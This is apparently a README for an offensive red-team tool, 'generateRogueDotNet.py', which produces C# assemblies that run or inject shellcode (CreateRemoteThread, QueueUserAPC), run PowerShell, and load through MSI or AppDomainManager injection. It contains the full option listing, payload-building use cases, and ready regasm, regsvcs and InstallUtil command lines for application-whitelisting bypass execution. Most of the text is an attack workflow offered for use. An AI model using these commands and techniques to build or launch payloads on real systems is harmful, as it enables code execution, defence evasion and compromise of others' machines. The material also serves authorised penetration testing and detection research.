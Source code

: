 ## Rogue .NET Assembly for Regsvcs/Regasm/InstallUtil Code Execution

This script produces C# code that can:

- run system command
- run shellcode in-process
- inject shellcode and execute with `CreateRemoteThread`
- inject shellcode and execute with `QueueUserAPC`
- run Powershell through a managed runspace
- a DLL that can be loaded with `regsvcs`, `regasm`, `installutil` LOLBINs

It **doesnt** incorporate any of the following:

- [D/Invoke](https://github.com/TheWover/DInvoke)
- [H/Invoke](https://gist.github.com/dr4k0nia/95bd2dc1cc09726f4aaaf920b9982f9d)
- Direct/Indirect syscalls

All Win32 APIs are imported with [P/Invoke](https://github.com/dotnet/pinvoke).

Produced .NET assemblies can also be used to:

- run .NET code from MSI context (use `-M` flag)
- run .NET code as part of injected [AppDomainManager](https://github.com/TheWover/GhostLoader) (use `-A` flag)


### Usage

Included in this directory script is a helper utility allowing one to quickly generate desired csharp source code file to be used for further `csc` compilation.

Usage:

```
    :: Rogue .NET Source Code Generation Utility ::
    Comes with a few hardcoded C# code templates and an easy wrapper around csc.exe compiler
    Mariusz Banach / mgeeky, <mb@binary-offensive.com>, '19-23

usage: .\generateRogueDotNet.py [options] <inputFile|cmdline>

positional arguments:
  inputFile             Input file to embedded into C# source code for --type regasm|plain. If --type exec was given, this parameter specifies command line to execute by the resulting assembly (environment variables will get expanded). May be either Powershell script, raw binary Shellcode or .NET Assembly (PE/EXE) file.

options:
  -h, --help            show this help message and exit
  -t {regasm,plain,exec,run-command}, --type {regasm,plain,exec,run-command}
                        Specifies type of payload to generate. "plain" - assembly with embedded shellcode/ps1/exe, "exec" - assembly that hardcodes supplied shell command in "inputFile|cmdline" parameter and then runs it, "run-command" exposes a method named --method which takes one string parameter being a command to run, "regasm" - produces
                        executable compatible with Regasm/Regsvcs/InstallUtil code execution primitives. Default: plain
  -c {default,x86,x64}, --compile {default,x86,x64}
                        Compile the source code using x86 or x64 csc.exe and generate output EXE/DLL file depending on --output extension. Default: default - CPU independent executable will be produced.
  -o PATH, --output PATH
                        Output path where to write produced assembly/C# code. Default: print resulting C# code to stdout
  -s NAME, --namespace NAME
                        Specifies custom C# module namespace for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: ProgramNamespace.
  -n NAME, --module NAME
                        Specifies custom C# module name for the generated Task (for needs of shellcode loaders such as DotNetToJScript or Donut). Default: Program.
  -m NAME, --method NAME
                        Specifies method name that could be used by DotNetToJS and alike deserialization techniques to invoke our shellcode. Default: Foo
  -e, --exe             Specified input file is an Mono/.Net assembly PE/EXE. WARNING: Launching EXE is currently possible ONLY WITH MONO/.NET assembly EXE/DLL files, not an ordinary native PE/EXE!
  -r, --raw             (OBSOLETED) Specified input file is a raw Shellcode to be injected in self process in a separate Thread (VirtualAlloc + CreateThread)
  -M, --msi-mode        Compiled .NET assembly is to be used with MSI installer
  -A, --appdomainmanager-mode
                        Defines additional public sealed class inheriting from AppDomainManager with name: "MyAppDomainManager". Useful for side-loading .NET applications through the AppDomainManager Injection attack (google up: TheWover/GhostLoader)
  -C PARAMS, --extra-params PARAMS
                        Additional parameters to add to CSC compiler
  --dotnet-ver {v2,v4,2,4}
                        Use specific .NET version for compilation (with --compile given). Default: v2
  --queue-apc           If --raw was specified, generate C# code template with CreateProcess + WriteProcessMemory + QueueUserAPC process injection technique instead of default CreateThread.
  --target-process PATH
                        This option specifies target process path for remote process injection in --queue-apc technique. May use environment variables. May also contain command line for spawned process, example: --target-process "%windir%\system32\werfault.exe -l -u 1234"

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
USE CASES:

1) Generate .NET EXE assembly that injects shellcode into remote process and runs via QueueUserAPC:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.exe --queue-apc

2) Generate .NET DLL assembly that executes shellcode inline/in-process
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll

3) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for building evil MSI:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -M

4) Run Powershell through a managed runspace:
    cmd> py generateRogueDotNet.py evil.ps1 -o evil.exe --dotnet-ver v4

5) Generate .NET DLL assembly that runs shellcode and can be loaded with Regasm/Regsvcs/InstallUtil LOLBINs:
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll -t regasm

5) Generate .NET assembly that executes hardcoded system command (calc.exe):
    cmd> py generateRogueDotNet.py -o evil.dll -t exec calc.exe

6) Generate .NET v4 DLL assembly that executes shellcode in-process and will be used for AppDomainManager injection (aka TheWover/GhostLoader):
    cmd> py generateRogueDotNet.py calc64.bin -o evil.dll --dotnet-ver v4 -A

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```


### Regsvcs, Regasm or InstallUtil execution:

- x86:
```
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```

- x64:
```
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U rogue.dll

%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe /U rogue.dll 

%WINDIR%\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
%WINDIR%\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U rogue.dll
```

